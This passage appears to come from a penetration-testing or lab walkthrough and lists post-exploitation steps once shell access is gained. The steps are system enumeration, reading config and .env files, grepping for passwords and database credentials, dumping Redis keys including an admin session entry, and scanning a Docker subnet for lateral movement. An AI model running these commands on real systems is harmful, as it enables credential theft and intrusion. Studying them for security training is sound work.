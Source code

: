 Once you have shell access:

### 1. Enumerate the Environment

```bash
# Check user
whoami
id

# Check operating system
uname -a
cat /etc/os-release

# Check network
ip addr
netstat -tulpn

# Check running processes
ps aux
```

### 2. Find Sensitive Data

```bash
# Look for configuration files
cat /app/config.py
cat /app/.env
cat /etc/nginx/nginx.conf

# Check environment variables
env

# Look for database credentials
grep -r "password" /app/
grep -r "DATABASE" /app/
```

### 3. Access Redis Data

```bash
# Connect to Redis
redis-cli

# List all keys
KEYS *

# Get specific cached data
GET cache:sessions:admin
```

### 4. Lateral Movement

```bash
# Check other containers
docker ps

# Check network
nmap -sn 172.17.0.0/24
```

